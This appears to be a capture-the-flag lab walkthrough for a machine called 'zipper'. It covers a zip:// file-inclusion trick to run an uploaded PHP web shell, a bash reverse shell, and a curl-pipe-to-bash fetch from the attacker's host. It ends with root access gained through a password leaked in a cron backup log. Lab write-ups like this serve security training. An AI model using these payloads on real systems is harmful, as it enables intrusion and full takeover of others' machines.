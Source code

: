 `Running all scans on 192.168.217.229`

`Host is likely running Unknown OS!`

`---------------------Starting Port Scan-----------------------`

`PORT   STATE SERVICE`
`22/tcp open  ssh`
`80/tcp open  http`

Check out the web server

![[Pasted image 20240222195706.png]]

So we can upload files but they get zipped

If we mouse over the home button in the top left corner we can see how files can be accessed.
![[Pasted image 20240222195831.png]]

Looking at HackTricks we can see there is a wrapper that unzips files so you can access them.
https://book.hacktricks.xyz/pentesting-web/file-inclusion (search for `zip://` on that page)

Let's see if we can reproduce this
`└─$ cat basic_php_webshell.php` 
`<?php echo system($_GET['cmd']); ?>`

Upload this file and copy the link it gives you
http://192.168.217.229/index.php?file=zip://uploads/upload_1708647079.zip%23basic_php_webshell&cmd=whoami

![[Pasted image 20240222200140.png]]

This seems to be working so what if we make a reverse shell and execute that
`└─$ cat shell.sh` 
`bash -c 'bash -i >& /dev/tcp/192.168.45.222/443 0>&1'`

Host this on the attack host's webserver and setup a nc listener
`└─$ nc -nlvp 443` 
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:443`
`Ncat: Listening on 0.0.0.0:443

`└─$ python -m http.server 80`                                           
`Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...`
`192.168.217.229 - - [22/Feb/2024 19:22:11] "GET /shell.sh HTTP/1.1" 200 -`

Change our command and execute
`http://192.168.217.229/index.php?file=zip://uploads/upload_1708647079.zip%23basic_php_webshell&cmd=curl%20192.168.45.222/shell.sh%20|%20bash`

`└─$ nc -nlvp 443` 
`Ncat: Version 7.94SVN ( https://nmap.org/ncat )`
`Ncat: Listening on [::]:443`
`Ncat: Listening on 0.0.0.0:443`
`Ncat: Connection from 192.168.217.229:42552.`
`bash: cannot set terminal process group (960): Inappropriate ioctl for device`
`bash: no job control in this shell`
`www-data@zipper:/var/www/html$ python3 -c 'import pty; pty.spawn("/bin/bash")'`
`<ml$ python3 -c 'import pty; pty.spawn("/bin/bash")'`
`www-data@zipper:/var/www/html$` 

Looking at crontab we can see a backup script executes as root
```
cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# Example of job definition:
# .---------------- minute (0 - 59)
# |  .------------- hour (0 - 23)
# |  |  .---------- day of month (1 - 31)
# |  |  |  .------- month (1 - 12) OR jan,feb,mar,apr ...
# |  |  |  |  .---- day of week (0 - 6) (Sunday=0 or 7) OR sun,mon,tue,wed,thu,fri,sat
# |  |  |  |  |
# *  *  *  *  * user-name command to be executed
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* *     * * *   root    bash /opt/backup.sh

```

See what this backup script does
`www-data@zipper:/var/www/html$ cat /opt/backup.sh`
`cat /opt/backup.sh`
`#!/bin/bash`
`password=cat /root/secret`
`cd /var/www/html/uploads`
`rm *.tmp`
`7za a /opt/backups/backup.zip -p$password -tzip *.zip > /opt/backups/backup.logwww-data@zipper:/var/www/html$ ls /opt/backups`

It backs everything in the uploads folder up with a root secret and also produces a log file.
Let's check the log file.
```
www-data@zipper:/var/www/html$ cat /opt/backups/backup.log
cat /opt/backups/backup.log

7-Zip (a) [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
p7zip Version 16.02 (locale=en_US.UTF-8,Utf16=on,HugeFiles=on,64 bits,1 CPU AMD EPYC 7371 16-Core Processor                 (800F12),ASM,AES-NI)

Open archive: /opt/backups/backup.zip
--
Path = /opt/backups/backup.zip
Type = zip
Physical Size = 482901

Scanning the drive:
5 files, 482189 bytes (471 KiB)

Updating archive: /opt/backups/backup.zip

Items to compress: 5


Files read from disk: 5
Archive size: 482901 bytes (472 KiB)

Scan WARNINGS for files and folders:

WildCardsGoingWild : No more files
----------------
Scan WARNINGS: 1

```

This `WildCardsGoingWild` looks a little suspicious. Is it our password?

`www-data@zipper:/var/www/html$ su root`
`su root`
`Password: WildCardsGoingWild`

`root@zipper:/var/www/html#`

Collect the flags
`root@zipper:~# cat /root/proof.txt`
`cc078fb0999a532d68ff279d5a3da296`
`root@zipper:~# find / -name local.txt 2>/dev/null`
`/var/www/local.txt`
`root@zipper:~# cat /var/www/local.txt`
`fae5f3610b6014c67c091aa2c18a3ae3`



